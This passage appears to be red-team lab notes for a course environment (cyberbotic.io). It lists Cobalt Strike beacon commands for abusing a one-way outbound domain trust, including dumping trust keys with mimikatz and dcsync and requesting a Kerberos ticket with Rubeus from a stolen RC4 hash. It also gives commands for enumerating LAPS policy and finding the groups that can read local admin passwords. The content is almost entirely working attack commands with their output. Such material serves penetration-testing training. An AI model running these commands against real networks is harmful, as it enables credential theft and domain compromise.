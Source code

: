```bash
```

### One-Way Outbound

>   As a challenge, try and find a way to get DA in this forest.

```bash
beacon> powershell Get-DomainTrust -Domain cyberbotic.io
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(objectCategory=trustedDomain)" --domain cyberbotic.io --attributes distinguishedName,name,flatName,trustDirection
beacon> mimikatz lsadump::trust /patch
# or
beacon> powershell Get-DomainObject -Identity "CN=msp.org,CN=System,DC=cyberbotic,DC=io" | select objectGuid
beacon> mimikatz @lsadump::dcsync /domain:cyberbotic.io /guid:{b93d2e36-48df-46bf-89d5-2fc22c139b43}
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(objectCategory=user)"
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:CYBER$ /domain:msp.org /rc4:f3fc2312d9d1f80b78e67d55d41ad496 /nowrap
beacon> run klist
beacon> powershell Get-Domain -Domain msp.org
```

## LAPS

### Check

```bash
beacon> ls C:\Program Files\LAPS\CSE
beacon> powershell Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl
beacon> powershell Get-DomainComputer | ? { $_."ms-Mcs-AdmPwdExpirationTime" -ne $null } | select dnsHostName
beacon> ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{2BE4337D-D231-4D23-A029-7B999885E659}\Machine
beacon> download \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{2BE4337D-D231-4D23-A029-7B999885E659}\Machine\Registry.pol
PS C:\Users\Attacker> Parse-PolFile .\Desktop\Registry.pol
```

### Discover

```bash
beacon> powershell Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.ActiveDirectoryRights -match "ReadProperty" } | select ObjectDn, SecurityIdentifier

ObjectDN                                                      SecurityIdentifier                          
--------                                                      ------------------                          
CN=WKSTN-2,OU=Workstations,DC=dev,DC=cyberbotic,DC=io         S-1-5-21-569305411-121244042-2357301523-1107
CN=WEB,OU=Web Servers,OU=Servers,DC=dev,DC=cyberbotic,DC=io   S-1-5-21-569305411-121244042-2357301523-1108
CN=SQL-2,OU=SQL Servers,OU=Servers,DC=dev,DC=cyberbotic,DC=io S-1-5-21-569305411-121244042-2357301523-1108
CN=WKSTN-1,OU=Workstations,DC=dev,DC=cyberbotic,DC=io         S-1-5-21-569305411-121244042-2357301523-1107

beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107
DEV\Developers
```